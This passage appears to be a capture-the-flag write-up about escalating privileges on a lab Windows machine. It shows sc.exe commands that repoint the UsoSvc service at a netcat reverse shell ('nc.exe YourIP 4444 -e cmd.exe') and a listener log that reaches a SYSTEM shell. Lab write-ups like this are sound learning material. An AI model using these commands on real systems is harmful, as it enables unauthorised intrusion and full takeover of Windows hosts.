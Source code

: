 Now we are cookin! We see a weak service called Usosvc. After some more research I find that I can use sc.exe in windows to play with services. So sc.exe was like systemctl/service command for linux. Noted.

Here is some [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config) for some background.
Refering to the previous [github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/c7e3ea005e8a174664d17d04a5e25a66846c06a5/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) about priv esc there is also a section to exploit the Usosvc service.

So I was able to follow along because it was pretty straight forward and just set up another netcat listener.

```
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\temp\nc.exe YourIP 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe start UsoSvc
```

```
nc -lvp 5678
Listening on [0.0.0.0] (family 0, port 5678)
Connection from 10.10.10.180 49722 received!
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Phew... That was fun. Learned a lot of new stuff with this box. Also after I rooted this one I looked up basics of powershell and guess what? I don't find it that scary anymore :)